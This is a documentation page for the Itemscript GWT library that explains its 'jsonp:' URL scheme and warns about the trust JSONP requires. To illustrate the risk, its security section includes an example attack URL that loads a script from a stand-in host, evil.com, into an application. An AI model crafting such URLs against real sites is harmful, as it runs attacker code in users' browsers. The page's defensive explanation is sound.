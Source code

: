 _Support for JSONP is not in the current release, but is implemented & will be in the next release._

# JSONP URLS in the GWT environment #

JSONP ("JSON with padding") refers to the use of HTML `<SCRIPT>` tags to get around the Same-Origin Policy in web browsers. For background: http://en.wikipedia.org/wiki/JSON#JSONP

JSONP is inherently only able to make GET requests, and is asychronous, so the JsonpConnector is an AsyncGetConnector.

JSONP implementations vary somewhat; generally they require you to supply a callback name in a query-string parameter supplied in the URL; they may also allow you to supply a second callback name to be called in the event of an error. For multiple requests to be made at the same time, the callback name should be a uniquely-generated name, and to avoid memory leaks the `<SCRIPT>` tag needs to be cleaned up after the response has completed. GWT's JSONP module manages those things for us. All we need to do is supply the callback name.

We define a URL scheme for JSONP URLs so that they can be separately dispatched from ordinary HTTP requests by the Itemscript library.

This scheme looks like this:

`jsonp:callbackParam,originalUrl`

or

`jsonp:callbackParam;errorCallbackParam,originalUrl`

For instance:

`jsonp:callback,http://twitter.com/statuses/user_timeline.json?screen_name=itemscript`

Here the callback parameter is called "callback" and there is no error callback.

Bear in mind that JSONP involves **complete trust** of the server you are connecting to, because everything they return will be executed as JavaScript **in the context of your application**. You should be very careful not to build an application that can cause a user-supplied URL to be downloaded by Itemscript without strictly checking it; you should be especially careful not to allow a third-party to send someone to a page on your site that trigger the download of a URL through Itemscript.

For instance, this would be a really, really bad idea:

`http://example.com/MyApplication.html#http://example.com/myDataSource.json`

Here you'd be taking a URL from the history token and automatically downloading it when your application starts. That means that by crafting a URL and persuading someone to click on it, they could be sent to a JSONP server that will cause them to download and execute whatever code the attacker wants:

`http://example.com/MyApplication.html#jsonp:callback,http://evil.com/evilscript.js`

Not all attacks are this obvious, but in general this maxim applies: never use a URL from an untrusted source, or one that connects to an untrusted server. If you need to connect to an untrusted server, do it from your own server, with appropriate security precautions, and send the result back to the client as JSON that can be safely parsed. This applies to all URLs, not just JSONP URLs, but JSONP is the most obvious and straightforward attack vector. One way to be safer is to construct URLs yourself from a fixed prefix, like your GWT host page's URL, and only add path & query information from user-supplied data. Combined with URL-encoding of path and query components, that is a fairly safe way of incorporating user-supplied data into a URL.

Itemscript is a registered trademark of Data Base Architects, Inc. The Itemscript specification, the Itemstore API specification and the JAM template language specification are open source works published under the new BSD license.